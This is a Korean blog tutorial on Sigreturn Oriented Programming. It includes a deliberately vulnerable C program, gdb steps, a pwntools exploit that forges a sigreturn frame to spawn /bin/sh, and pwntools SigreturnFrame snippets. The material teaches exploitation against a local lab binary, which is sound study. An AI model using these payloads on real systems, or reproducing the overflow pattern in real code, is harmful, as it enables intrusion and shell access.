 ```yaml
---
layout: post
title: "Sigreturn oriented programming"
excerpt: "Try to know SROP & use it ~_~"
categories: [system]
comments: true 
---
```


이번에는 ROP의 다른 종류(?) 느낌인 SROP에 대하여 알아보자.

### 0x0. SROP?

sigreturn 시스템 콜을 이용하여 레지스터에 원하는 값을 저장하는 기법 > 이를 이용하여 원하는 시스템 함수를 호출

ROP를 하기에 가젯이 불충분할 경우 주로 사용 > 많은 가젯이 필요하지 않고 INT80 가젯만으로 충분



### 0x1. signal

SROP는 sigreturn으로 쉘을 따는데, sigreturn을 syscall table에서 찾아보면 eax로 119를 넘겨주면 실행되고, 파라미터로는 unsigend long이 요구된다.

시그널을 받은 프로세스가 커널 모드에서 유저모드로 복귀할 때 사용하는 system call이 sigreturn system call이다. 



### 0x2. example

```c
#include <stdio.h>

void int80(){
asm("int $0x80");
}

int main(){
char buf[8];
read(0,buf,128);
}
```

위와 같은 코드가 있을 때,  우리는 SROP를 하기 위해 read에서 bof를 발생 시킨 후 eax를 조작하고 ret addr를 int 0x80으로 넘겨줘야한다.  
후에 이를 이용하여 /bin/sh을 실행시킨다. 119개의 문자열을 입력하고 int 0x80으로 ret하면 sigreturn함수가 호출된다. 

![srop1](/img/srop1.png)

우선 read다음으로 breakpoint를 걸고 A를 118개를 넣어본다. 그 후  x/40wx $rsp를 보면 아래같이 A로 가득찬걸 볼 수 있다.

![srop2](/img/srop2.png)

다음으로는  i r 을 통하여 레지스터 값을 본다.

![srop3](/img/srop3.png)

레지스터 값을 보면 rax 레지스터에 0x77이 들어가있는걸 확인할 수 있다. 이  0x77이 바로 sigreturn의 syscall number이다.  이제는 ret addr을 int 0x80 gadget으로 덮어씌우자. 

이제 int 0x80 함수를 보면 아래와 같다.

![srop4](/img/srop4.png)

이제 int80의 주소를 main의 ret addr에 넣을것이다 . gdb에서 set {int}0xffffd1d0=0x08048413를 이용하여 가능하다.

![srop5](/img/srop5.png)

이렇게 잘 덮어씌어진걸 알 수 있다.  이제는 sigreturn를 호출하는 sigcontext.h 구조체를 봐야한다.

```c
struct sigcontext{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

이제 이를 참고하여 exploit code를 작성해보자.



### 0x3. exploit :

```python
from pwn import *
p = process('./srop')

syscall = 0x08048413

payload = "A"*20
payload += p32(syscall)
payload += p32(0x33)
payload += p32(0)
payload += p32(0x7b)
payload += p32(0x7b)
payload += p32(0)
payload += p32(0)
payload += p32(0) #ebp
payload += p32(0) #esp
payload += p32(0xffffd184)

payload += p32(0)
payload += p32(0)
payload += p32(0xb)
payload += p32(0)
payload += p32(0)
payload += p32(syscall)
payload += p32(0x73)
payload += p32(0x246)
payload += p32(0)
payload += p32(0x7b)
payload += "\x00"*(118-len(payload))

p.sendline(payload)
p.interactive()
```

아니 난 왜 대체 익스가 안되나 계속 생각해봤는데 아직도 모르겠다. 왜 계속 다른 레지스터들은 변조가 되는데 eip랑 ecx는 변조가 안될까...  결국 그냥 다시 코딩해서 해결했다. 왜 처음엔 안된걸까

pwntool에서는 다음과 같이 편리하게 사용할 수 있다.
```
#32bit
frame = SigreturnFrame(kernel='i386')
frame.eax = 0xb
frame.ebx = binsh
frame.esp = syscall
frame.eip = syscall
 
#64bit
frame = SigreturnFrame(arch="amd64")
frame.rax = constants.SYS_execve
frame.rdi = binsh
frame.rsp = syscall
frame.rip = syscall
```

++++++
드디어 왜 안된지 알아낸 것 같다. 
The full **vsyscall** features. This config option can be found before v4.15. This includes *Ubuntu 18.04.2*. However, *Ubuntu 18.04* does **not** use this configuration.
그냥 내가 사용하는 우분투 버전인 18.04버전에서는 vsyscall이 구성되어 있지 않다고 한다... 이거 때문인 것 같다..

